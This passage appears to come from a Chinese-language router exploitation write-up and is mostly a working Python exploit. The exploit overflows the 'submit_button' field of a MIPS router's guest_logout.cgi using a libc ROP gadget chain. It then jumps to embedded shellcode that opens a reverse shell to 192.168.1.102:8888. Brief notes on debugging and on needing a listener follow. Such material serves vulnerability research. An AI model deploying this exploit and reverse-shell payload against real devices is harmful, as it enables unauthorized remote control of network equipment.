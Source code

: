 exp：

```python
import requests
from pwn import *
context(arch='mips',endian='little',os='linux')

libc = 0x2af98000
jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0

jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0 


#LHOST=192.168.1.102 LPORT=8888


buf =  b""
buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x66\x0e\x3c\xc0"
buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
buf += b"\x01\x01"

pd1 = "status_guestnet.asp"+'a'*49+p32(jmp_a0)+'b'*(85-49-4)+p32(jmp_s0)+'c'*0x18+buf

url = "https://192.168.1.1/guest_logout.cgi"
pd2 = {
"cmac":"12:af:aa:bb:cc:dd",
"submit_button":pd1,
"cip":"192.168.1.100"
}

requests.packages.urllib3.disable_warnings()
requests.post(url, data=pd2, verify=False, timeout=1)
```

下断点调试可以看到程序执行流已经成功跳转到栈上的shellcode

[![img](https://p3.ssl.qhimg.com/t01ef9b76e3cec45c5e.jpg)](https://p3.ssl.qhimg.com/t01ef9b76e3cec45c5e.jpg)

但是这样要先开一个shell等待连接

学习一下师傅在一个py脚本中通过多线程和网络编程完成攻击的方法

